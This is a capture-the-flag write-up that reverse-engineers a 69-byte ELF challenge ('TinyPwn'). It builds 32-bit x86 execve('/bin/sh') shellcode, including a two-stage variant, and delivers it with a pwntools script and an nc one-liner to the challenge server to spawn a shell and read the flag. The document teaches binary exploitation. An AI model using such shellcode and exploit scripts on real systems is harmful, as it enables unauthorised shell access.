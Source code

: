 ```yaml
---
author: micronoyau
layout: post
date: 2023-09-25 12:00:00 +0200
excerpt_separator: <!--more-->
---
```


# TinyPwn

In this challenge, we are given a very small ELF file (only 69 bytes long).
I was clearly inspired by this following article which I strongly ecourage reading : https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html.
The program waits for an input from the user and then immediatly leads to a segfault. The goal is to find the proper input.

## Understanding the ELF structure

As usual, let's try to open and disassemble this file in gdb.

```
"/home/micronoyau/Documents/vsctf/tinypwn/tinypwn": not in executable format: file format not recognized
```

Ooops, gdb does not understand the file structure. But the file is still an elf :
```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ file tinypwn
tinypwn: ELF 32-bit invalid byte order (SYSV)
```

Lets do a quick hexdump to get more insight into this file :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ hexdump -C tinypwn
00000000  7f 45 4c 46 01 00 00 00  00 00 00 00 00 00 01 00  |.ELF............|
00000010  02 00 03 00 34 00 01 00  34 00 01 00 04 00 00 00  |....4...4.......|
00000020  2f 62 69 6e 2f 73 68 00  34 00 20 00 01 00 00 00  |/bin/sh.4. .....|
00000030  00 00 00 00 6a 03 58 bb  00 00 00 00 89 e1 6a 0d  |....j.X.......j.|
00000040  5a cd 80 ff e4                                    |Z....|
00000045
```

There is the string `/bin/sh` at offset 32. Most likely we are going to need that at some point.

The ELF header is the following (please check https://en.wikipedia.org/wiki/Executable_and_Linkable_Format for more details):

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -h tinypwn
ELF Header:
  Magic:   7f 45 4c 46 01 00 00 00 00 00 00 00 00 00 01 00 
  Class:                             ELF32
  Data:                              none
  Version:                           0
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x10034
  Entry point address:               0x10034
  Start of program headers:          4 (bytes into file)
  Start of section headers:          1852400175 (bytes into file)
  Flags:                             0x68732f
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         1
  Size of section headers:           0 (bytes)
  Number of section headers:         0
  Section header string table index: 0
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers
```

`readelf` is warning us that the ELF file is potentially corrupt because the section headers offset (`e_shoff`) is `0x2f62696e=1852400175`, but the file specifies there is no section headers.
Ok, we can clearly see there is an overlap between the ELF header and some other data.  More exactly, we can see the program header offset (`e_phoff`) is 4, but the header is 52 bytes long (`e_ehsize`). Lets take a look at the list of segments :

```
[micronoyau@pwnixos:~/Documents/vsctf/tinypwn]$ readelf -l tinypwn
readelf: Warning: possibly corrupt ELF file header - it has a non-zero section header offset, but no section headers

Elf file type is EXEC (Executable file)
Entry point 0x10034
There is 1 program header, starting at offset 4

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  LOAD           0x000000 0x00010000 0x00030002 0x10034 0x10034 R   0x6e69622f
```

The only segment encompasses the entire file and even more (`Offset=0`, `Filesize=0x10034`) at the address `0x10000`. We saw previously in the ELF header that the entrypoint is `0x10034`. Therefore the first instruction is the `0x34=52`th byte in file, right after the end of the header.
Lets disassemble the remaining portion after the header :

```
0:  6a 03                   push   0x3
2:  58                      pop    eax
3:  bb 00 00 00 00          mov    ebx,0x0
8:  89 e1                   mov    ecx,esp
a:  6a 0d                   push   0xd
c:  5a                      pop    edx
d:  cd 80                   int    0x80
f:  ff e4                   jmp    esp
```

Essentially, this does a syscall to `read` (system call number `eax=3`) on stdin (file descriptor `ebx=0`) and stores the result on the stack (`ecx=esp`). We can read up to `edx=0xd=13` characters. Next, it jumps on top of the stack.

The exploit is easy : we just need to input a shellcode to perform a syscall to execve. We know /bin/sh has offset `0x20` in file, so its address in memory is `0x10020`.

```
0:  b0 0b                   mov    al,0xb
2:  bb 20 00 01 00          mov    ebx,0x10020
7:  31 c9                   xor    ecx,ecx
9:  31 d2                   xor    edx,edx
b:  cd 80                   int    0x80 
```

The corresponding shellcode is `\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80`. The null bytes are not a problem because the `read` syscall does not stop until it reaches the end of the buffer or an EOF. But in the heat of the action we forgot this detail and tried to modify this shellcode to remove any `\x00`.

We did not find any shellcode less than 13 bytes to setup properly every register. Instead, we implemented the exact same syscall but changed `edx` to allow for more room :

```
0:  66 ba 10 10             mov    dx,0x1010
4:  b0 03                   mov    al,0x3
6:  cd 80                   int    0x80
```

\x66\xBA\x10\x10\xB0\x03\xCD\x80

Then, all registers are set up accordingly
```
0:  6a 0b                   push   0xb
2:  58                      pop    eax
3:  66 bb 02 10             mov    bx,0x1002
7:  c1 e3 04                shl    ebx,0x4
a:  31 c9                   xor    ecx,ecx
c:  31 d2                   xor    edx,edx
e:  cd 80                   int    0x80
```

To account for the padding introduced by this method (at the time of the syscall in the first step, `eip` is somewhere above the stack pointer), we add some NOP instructions between both shellcodes, as shown in this radare2 dump right after the syscall :
![](/assets/vsctf/tinypwn_r2.png)

Putting every piece together and using pwntools :

```
from pwn import *

conn = remote('vsc.tf', 3026)
conn.sendline('\x66\x81\xC2\x01\x01\xB0\x03\xCD\x80\n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6A\x0B\x58\x66\xBB\x02\x10\xC1\xE3\x04\x31\xC9\x31\xD2\xCD\x80')
conn.interactive()
```

![](/assets/vsctf/tinypwn_expl_flag.png)

Note that, to come back to the beginning of the discussion, that our method is overkill compared to a more optimal solution since we don't need to take special care of NULL bytes :
```
echo -ne '\xb0\x0b\xbb\x20\x00\x01\x00\x31\xc9\x31\xd2\xcd\x80\ncat flag.txt\n' | nc vsc.tf 3026
```
